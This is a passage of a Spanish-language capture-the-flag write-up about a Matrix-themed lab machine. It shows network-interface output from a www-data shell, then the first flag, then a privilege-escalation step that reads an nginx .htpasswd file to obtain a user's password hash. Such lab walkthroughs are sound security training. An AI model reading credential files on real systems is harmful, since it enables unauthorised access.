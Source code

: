 ```shell
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:bd:77:00 brd ff:ff:ff:ff:ff:ff
    altname enp2s1
    inet 192.168.1.91/24 brd 192.168.1.255 scope global dynamic ens33
       valid_lft 82202sec preferred_lft 82202sec
    inet6 fe80::20c:29ff:febd:7700/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:75:05:78:ed brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:75ff:fe05:78ed/64 scope link 
       valid_lft forever preferred_lft forever
5: vethcf0f694@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether b2:b8:44:aa:01:27 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::b0b8:44ff:feaa:127/64 scope link 
       valid_lft forever preferred_lft forever
www-data@morpheus:/var/www/html$ 
```

Si nos vamos a la raiz, encontramos la primera flag!

```shell
www-data@morpheus:/$ cat FLAG.txt 
Flag 1!

You've gotten onto the system.  Now why has Cypher locked everyone out of it?

Can you find a way to get Cypher's password? It seems like he gave it to 
Agent Smith, so Smith could figure out where to meet him.

Also, pull this image from the webserver on port 80 to get a flag.

/.cypher-neo.png
www-data@morpheus:/$ 
```

## Escalada de Privilegios

* * * 

Si bien recordamos, en el puerto 81 estaba corriendo el servicio `nginx`, así que nos dirigiremos al directorio `/var/nginx/html/`, para encontrar la contraseña hasheada del usuario `cypher` en la web

```shell
www-data@morpheus:/$ cd /var/nginx/html/
www-data@morpheus:/var/nginx/html$ ls -la
total 784
drwxr-xr-x 2 nginx nginx   4096 Oct 28  2021 .
drwxr-xr-x 3 nginx nginx   4096 Oct 28  2021 ..
-rw-r--r-- 1 nginx nginx     45 Oct 28  2021 .htpasswd
-rw-r--r-- 1 nginx nginx 782775 Oct 28  2021 ignorance-bliss.png
-rw-r--r-- 1 nginx nginx    522 Oct 28  2021 index.html
www-data@morpheus:/var/nginx/html$ cat .htpasswd 
cypher:$apr1$e9o8Y7Om$5zgDW6WOO6Fl8rCC7jpvX0
www-data@morpheus:/var/nginx/html$ 
```
